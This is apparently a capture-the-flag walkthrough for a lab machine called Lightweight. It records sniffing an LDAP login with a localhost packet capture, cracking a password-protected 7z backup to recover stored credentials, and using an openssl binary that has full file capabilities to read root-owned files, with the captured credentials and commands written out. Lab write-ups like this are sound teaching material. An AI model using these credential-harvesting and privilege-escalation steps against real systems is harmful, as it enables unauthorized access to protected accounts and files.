 ![](./logo.png)

# USER

Site bans IPs for exposed services
But can connect using ssh with a temp user

List of banned ips 
```
http://10.10.10.119/status.php
```

Can connect using ssh ip as username and password

Write to all users
```
wall <MESSAGE>
```


Capabilities seems to be the way forward with this box. A full list of capabilities can be listed
using 

```
capsh --print
```

By running a TCP dump on the localhost I was able to obtain an
LDAP authentication request

```
uid=ldapuser2,ou=People,dc=lightweight,dc=htb
8bc8251332abe1d7f105d3e53ad39ac2
```

LDAP is used to authenticate local users
Therfore:

```
su - ldapuser2
```

Using the ```ldap``` password logs the into the user to get the user.txt

# ROOT

Found a .7z file with password encryption. Going to try a file brute force.
Password for zip file is:

```
delete
```

Zip file contains a backup of the website. It had based in it username and password for ldapuser1

```
ldapuser1
f3ca9d298a553da117442deeb6fa932d
```

Running the LinEnum script when logged in as ldapuser1 you can see that the "openssl" script in the home 
directory has it's capabilities set:

```
/home/ldapuser1/openssl =ep
```

This seems to allow openssl to run as admin
By looking at https://gtfobins.github.io/. You can see that OpenSSL can be used to read and write files

```
./openssl enc -in "/root/root.txt"
```